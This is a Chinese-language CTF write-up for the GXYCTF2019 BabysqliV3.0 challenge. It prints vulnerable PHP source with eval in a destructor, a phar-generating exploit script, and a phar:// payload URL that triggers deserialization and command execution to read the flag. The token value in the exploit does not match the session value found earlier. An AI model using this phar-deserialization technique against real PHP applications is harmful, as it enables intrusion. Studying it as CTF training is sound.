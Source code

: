 # 原创
：  [GXYCTF2019]BabysqliV3.0

# [GXYCTF2019]BabysqliV3.0

#### [GXYCTF2019]BabysqliV3.0

## 考点

> 
弱口令、PHP反序列化


## 思路

> 
①：题目页面提示我们应该是需要sqli注入，但是用它输入框提示的admin/password一试就进去了…<br/> ②：`http://5f8d9cd4-4695-4428-acc2-b02b0e49d8d9.node3.buuoj.cn/home.php?file=upload`熟悉的形式，用php伪协议读取一下文件试试；<br/> ③：预期解法：审计 upload.php 代码，`$this-&gt;Filename = $_GET['name'];`，可见 $this-&gt;Filename 是可控的，可以通过 name 参数以 get 方式得到；分析最后上传部分的代码，file_get_contents() 使 $uploader 通过__toString() 返回 $this-&gt;Filename，$this-&gt;Filename 可控，因此此处 $this-&gt;Filename 用来触发 phar，__destruct() 方法内 eval($this-&gt;cmd)；


## Payload

> 
伪协议读取home.php


```
&lt;?php
session_start();
echo "&lt;meta http-equiv=\"Content-Type\" content=\"text/html; charset=utf-8\" /&gt; &lt;title&gt;Home&lt;/title&gt;";
error_reporting(0);
if(isset($_SESSION['user'])){
        if(isset($_GET['file'])){
                if(preg_match("/.?f.?l.?a.?g.?/i", $_GET['file'])){
                        die("hacker!");
                }
                else{
                        if(preg_match("/home$/i", $_GET['file']) or preg_match("/upload$/i", $_GET['file'])){
                                $file = $_GET['file'].".php";
                        }
                        else{
                                $file = $_GET['file'].".fxxkyou!";
                        }
                        echo "当前引用的是 ".$file;
                        require $file;
                }

        }
        else{
                die("no permission!");
        }
}
?&gt;

```

> 
伪协议读取upload.php


```
&lt;?php
error_reporting(0);
class Uploader{
        public $Filename;
        public $cmd;
        public $token;


        function __construct(){
                $sandbox = getcwd()."/uploads/".md5($_SESSION['user'])."/";
                $ext = ".txt";
                @mkdir($sandbox, 0777, true);
                if(isset($_GET['name']) and !preg_match("/data:\/\/ | filter:\/\/ | php:\/\/ | \./i", $_GET['name'])){
                        $this-&gt;Filename = $_GET['name'];
                }
                else{
                        $this-&gt;Filename = $sandbox.$_SESSION['user'].$ext;
                }

                $this-&gt;cmd = "echo '&lt;br&gt;&lt;br&gt;Master, I want to study rizhan!&lt;br&gt;&lt;br&gt;';";
                $this-&gt;token = $_SESSION['user'];
        }

        function upload($file){
                global $sandbox;
                global $ext;

                if(preg_match("[^a-z0-9]", $this-&gt;Filename)){
                        $this-&gt;cmd = "die('illegal filename!');";
                }
                else{
                        if($file['size'] &gt; 1024){
                                $this-&gt;cmd = "die('you are too big (′▽`〃)');";
                        }
                        else{
                                $this-&gt;cmd = "move_uploaded_file('".$file['tmp_name']."', '" . $this-&gt;Filename . "');";
                        }
                }
        }

        function __toString(){
                global $sandbox;
                global $ext;
                // return $sandbox.$this-&gt;Filename.$ext;
                return $this-&gt;Filename;
        }

        function __destruct(){
                if($this-&gt;token != $_SESSION['user']){
                        $this-&gt;cmd = "die('check token falied!');";
                }
                eval($this-&gt;cmd);
        }
}

if(isset($_FILES['file'])) {
        $uploader = new Uploader();
        $uploader-&gt;upload($_FILES["file"]);
        if(@file_get_contents($uploader)){
                echo "下面是你上传的文件：&lt;br&gt;".$uploader."&lt;br&gt;";
                echo file_get_contents($uploader);
        }
}

?&gt;

```

### 预期解法

> 
由于__destruct() 方法中，想要 eval($this-&gt;cmd); 的前提条件是 $this-&gt;token 和$_SESSION[‘user’] 相等


```
function __destruct(){
	if($this-&gt;token != $_SESSION['user']){
		$this-&gt;cmd = "die('check token falied!');";
	}
	eval($this-&gt;cmd);
}

```

> 
在__construct() 方法中可见如下两行代码


```
$sandbox = getcwd()."/uploads/".md5($_SESSION['user'])."/";
$this-&gt;Filename = $sandbox.$_SESSION['user'].$ext;

```

> 
因此可以先随便上传一个 txt，得到的路径中，.txt 前面的就是 $_SESSION[‘user’]


> 
得到：`GXY3fb034f8f0c46f14bf11438f9afccbf4`，生成phar，并将生成的phar上传


```
&lt;?php
class Uploader{
    public $Filename;
    public $cmd;
    public $token;
}

$upload = new Uploader();
$upload-&gt;cmd = "highlight_file('/var/www/html/flag.php');";
$upload-&gt;Filename = 'test';
$upload-&gt;token = 'GXY063c630ae7ab41c6fd121cb4851620a3';

$phar = new Phar("exp.phar");
$phar-&gt;startBuffering();
$phar-&gt;setStub('GIF89a'.'&lt;?php __HALT_COMPILER(); ? &gt;');
$phar-&gt;setMetadata($upload); 
$phar-&gt;addFromString("exp.txt", "test");
$phar-&gt;stopBuffering();

```

> 
得到路径`/var/www/html/uploads/93cd61477a821014fa4b00df090ebdcd/GXY3fb034f8f0c46f14bf11438f9afccbf4.txt`


> 
然后将这个路径带上 phar:// 作为 name 参数的值，再随意上传一个文件，因为 $this-&gt;Filename 被我们手工指定为 phar，触发了 phar 反序列化导致命令执行<br/> Payload：`http://5f8d9cd4-4695-4428-acc2-b02b0e49d8d9.node3.buuoj.cn/home.php?file=upload&amp;name=phar:///var/www/html/uploads/93cd61477a821014fa4b00df090ebdcd/GXY3fb034f8f0c46f14bf11438f9afccbf4.txt`<br/> 传任意文件后，得到 flag


### 非预期解法

> 
由于`echo file_get_contents($uploader);`上传后会显示出 $uploader 这个文件的内容，所以只要使 $this-Filename 为 flag.php 然后随便传个东西就会得到 flag 了

